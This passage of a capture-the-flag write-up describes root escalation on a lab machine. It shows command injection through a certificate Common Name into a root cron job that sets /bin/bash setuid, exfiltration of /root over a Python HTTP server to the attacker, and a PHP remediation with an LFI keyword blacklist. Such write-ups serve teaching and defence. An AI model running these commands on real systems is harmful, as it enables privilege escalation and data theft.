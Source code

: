 ```shell
```

The file is owned by root, read by group and executed by all. It checks that existing certificate expiry remains one day and then renew it. And then it moves the renewed .crt to Certs directory in bills home directory and uses the commonName as the name of the file. Since it runs under with the root user and interpolates the common name from the system stored common name variable, we will get it to set the bash utility with the setuid permission i.e `$(chmod +s /bin/bash)` while moving the file to the Certs directory. Generate certificate with one day to expiry in the Certs folder so the cron can trigger a renewal and inadvertently execute our setuid script after 10 seconds.

```shell
cd Certs       # change into the Certs directory

# create the self-signed certificate named broscience and for 'Common Name (e.g. server FQDN or YOUR name) []:' $(chmod +s /bin/bash)
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt -days 1 

# check expiry date
openssl x509 -enddate -noout -in broscience.crt

# after 10 seconds list /bin/bash
ls -la /bin/bash
#--snip--#
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash

bash -p
whoami       # user is effectively root
cat /root/root.txt    # capture the root flag
```

#### Exfiltration
Collect the source code and helper scripts for further analysis.
```shell
# start a python server on the victim's machine
python3 -m http.server 8098

# download all contents of the /root unto the attacker's machine
get -R "index.html*" -c -r -L -p -nc -nH -P source  http://10.10.11.195:8098/

cd source    # change directory into source

# remove superfluous files and folders
rm -fr .local .cache .profile .viminfo .bashrc .bash_history root.txt
```

#### Remediation
**Fixing the Foothold Vector**  
Although the developer tried preventing the path traversal vulnerability by comparing the user input against a blacklist words - whilelisting is mostly advised, the `file_get_contents` and  `__wakeup`  functions were the culprits that enabled a foothold on the system.  See reference for [properly implementing php's `file_get_contents`](https://stackoverflow.com/questions/6085496/php-directory-traversal-issue/6085523#6085523).
[fixed img.php](#)
```php
<?php
if (!isset($_GET['path'])) {
    die('<b>Error:</b> Missing \'path\' parameter.');
}

// Check for LFI attacks
$path = $_GET['path'];

$badwords = array("../", "etc/passwd", ".ssh");
foreach ($badwords as $badword) {
```